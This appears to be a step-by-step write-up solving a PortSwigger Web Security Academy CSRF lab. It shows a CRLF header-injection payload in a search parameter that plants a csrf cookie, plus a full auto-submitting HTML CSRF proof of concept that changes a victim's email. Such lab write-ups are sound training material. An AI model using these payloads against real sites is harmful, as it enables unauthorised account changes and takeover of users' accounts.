 ## Welcome, my friend. Today we will start the [6. CSRF lab](https://portswigger.net/web-security/learning-paths/csrf/csrf-common-flaws-in-csrf-token-validation/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie) in ```portswigger```

### Let's play this lab:

![image](https://github.com/user-attachments/assets/4c65afa1-bd8d-478a-b91c-2969c5dfbf1b)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/c5a5656d-9ed5-4185-8d44-bf1c82d08478)

#### We can log in to our account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/f4bbd8f2-d952-4cea-a5c3-cbe095af6c12)

#### Let's update email to ```0xT0R@gmail.com```:

![image](https://github.com/user-attachments/assets/f0143b2d-6431-4319-97a6-a039845cabd1)

#### We need do this task but through our victim by CSRF, we should intercept this request of update email by burp suite.

![image](https://github.com/user-attachments/assets/5b549f6c-7c42-4053-a544-116ed80e6a20)


### Let's change values of csrf and csrfkey:

![image](https://github.com/user-attachments/assets/c75f6117-fcad-4167-acca-8066a8ac1d03)



### Now Go to wiener account and go to home page and search about ```hi``` in search paramater:

![image](https://github.com/user-attachments/assets/383bc09a-ee98-40ae-aa35-657fc7084fbe)

#### and intercept this request in burp suite:

![image](https://github.com/user-attachments/assets/06cd30e7-0ae2-4884-88ad-5d239d6844ef)

### Great, we discove ```LastSearchTerm``` paramater in set-cookie.

### Let's changed search value to:

```
/?search=hi%0d%0aSet-Cookie:%20csrf=test%3b%20SameSite=None
```

![image](https://github.com/user-attachments/assets/6bbafd99-c1dd-4c4e-9ed4-582fbf189930)

### Go to exploit server and paste this code:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9b005d03f809c78201c4d300bb00cb.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="ali&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="hi" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a9b005d03f809c78201c4d300bb00cb.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=hi%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

![image](https://github.com/user-attachments/assets/24c5efb2-dc38-4e5b-8bbf-d54e89c117a2)



-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/1c9fe230-b538-4250-8430-f93651e64fd6" >
</p>
